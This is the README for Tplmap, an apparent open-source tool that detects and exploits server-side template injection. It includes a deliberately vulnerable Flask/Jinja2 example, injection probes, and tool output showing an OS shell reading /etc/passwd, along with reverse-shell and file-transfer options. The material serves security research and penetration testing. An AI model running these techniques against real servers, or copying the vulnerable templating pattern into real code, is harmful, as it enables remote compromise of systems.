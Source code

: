 Tplmap
======

Tplmap (short for _Template Mapper_) automates the detection and exploitation of Server-Side Template Injection (SSTI) vulnerabilities to break-out the sandbox and achieve remote command execution on the remote operating system. 

The tool can be used as a testbed to conduct researches on the SSTI vulnerability class and as offensive security tool in penetration test engagements.

The sandbox break-out techniques came from public [researches][4] as James Kett's [Server-Side Template Injection: RCE For The Modern Web App][1] and other original piece of [works][2] to [extend][3] this tool capabilities.

It achieves full compromise in rendered context, several code context and blind injection scenarios. It also exploits _eval()_-like injections in several languages and generic unsandboxed template engines.

Server-Side Template Injection
------------------------------

Assume that you are auditing a web site that generates dynamic pages using templates composed with user-provided values, such as this web application written in Python and [Flask][6] that uses [Jinja2][5] template engine in an unsafe way.

```python
from flask import Flask, request
from jinja2 import Environment

app = Flask(__name__)
Jinja2 = Environment()

@app.route("/page")
def page():

    name = request.values.get('name')
    
    # SSTI VULNERABILITY
    
    # The user-controllable GET parameter `name` is
    # concatenated to the template string instead of
    # being passed as context to the `render()` method. 
    
    output = Jinja2.from_string('Hello ' + name + '!').render()

    return output

if __name__ == "__main__":
    app.run(host='0.0.0.0', port=80)
```

From a black box testing perspective, the page reflects the value similarly to a XXS vulnerability, but also computes basic operation at runtime disclosing its SSTI nature.

```
$ curl -g 'http://www.target.com/page?name=John'
Hello John!
$ curl -g 'http://www.target.com/page?name={{7*7}}'
Hello 49!
```

Exploitation
------------

Tplmap is able to detect and exploit SSTI in a range of template engine, including Jinja2, to get access to the underlying file system and operating system. Run it against the URL to test if the parameters are vulnerable.

```
$ ./tplmap.py -u 'http://www.target.com/page?name=John'
[+] Tplmap 0.3
    Automatic Server-Side Template Injection Detection and Exploitation Tool

[+] Testing if GET parameter 'name' is injectable
[+] Smarty plugin is testing rendering with tag '{*}'
[+] Mako plugin is testing rendering with tag '${*}'
...
[+] Jinja2 plugin is testing rendering with tag '{{*}}'
[+] Jinja2 plugin has confirmed injection with tag '{{*}}'
[+] Tplmap identified the following injection point:

  GET parameter: name
  Engine: Jinja2
  Injection: {{*}}
  Context: text
  OS: linux
  Technique: render
  Capabilities:

   Shell command execution: yes
   Bind and reverse shell: yes
   File write: yes
   File read: yes
   Code evaluation: yes, python code

[+] Rerun tplmap providing one of the following options:

    --os-shell                Run shell on the target
    --os-cmd                  Execute shell commands
    --bind-shell PORT         Connect to a shell bind to a target port
    --reverse-shell HOST PORT Send a shell back to the attacker's port
    --upload LOCAL REMOTE     Upload files to the server
    --download REMOTE LOCAL   Download remote files
```

Use `--os-shell` option to compromise the target in a fully automated way.

```
$ ./tplmap.py --os-shell -u 'http://www.target.com/page?name=John'
[+] Tplmap 0.3
    Automatic Server-Side Template Injection Detection and Exploitation Tool

[+] Run commands on the operating system.

linux $ whoami
www
linux $ head /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
```

Supported template engines
--------------------------

Tplmap can exploit SSTI vulnerabilities in over 15 template engines, unsandboxed template engines and generic _eval()_-like injections. Blind injections and injections in code contexts are also supported.

| Template engine    | Remote Command Execution |  Blind | Code evaluation | File read | File write |
|----------------------|-------|-------------------|-----------------|-----------|------------|
| Mako                 | ✓ |  ✓                | Python          |  ✓        |  ✓         |
| Jinja2               | ✓ |  ✓                | Python          |  ✓        |  ✓         |
| Python (generic)     | ✓ |  ✓                | Python          |  ✓        |  ✓         |
| Nunjucks             | ✓ |  ✓                | JavaScript      |  ✓        |  ✓         |
| Jade                 | ✓ |  ✓                | JavaScript      |  ✓        |  ✓         |
| doT                  | ✓ |  ✓                | JavaScript      |  ✓        |  ✓         |
| Marko                | ✓ |  ✓                | JavaScript      |  ✓        |  ✓         |
| JavaScript (generic) | ✓ |  ✓                | JavaScript      |  ✓        |  ✓         |
| Dust (<= dustjs-helpers@1.5.0) | ✓ |  ✓                | JavaScript      |  ✓        |  ✓         |
| Smarty (unsecured)   | ✓ |  ✓                | PHP             |  ✓        |  ✓         |
| PHP (generic)        | ✓ |  ✓                | PHP             |  ✓        |  ✓         |
| Freemarker           | ✓ |  ✓                | ×               |  ✓        |  ✓         |
| Velocity             | ✓ |  ✓                | ×               |  ✓        |  ✓         |
| Twig                 | × | ×                 | ×               | ×         | ×          |
| Smarty (secured)     | × | ×                 | ×               | ×         | ×          |
| Dust (> dustjs-helpers@1.5.0)  | × | ×                 | ×               | ×         | ×          |

[1]: http://blog.portswigger.net/2015/08/server-side-template-injection.html
[2]: https://github.com/epinna/tplmap/issues/9
[3]: http://disse.cting.org/2016/08/02/2016-08-02-sandbox-break-out-nunjucks-template-engine
[4]: https://artsploit.blogspot.co.uk/2016/08/pprce2.html
[5]: http://jinja.pocoo.org/
[6]: http://flask.pocoo.org/
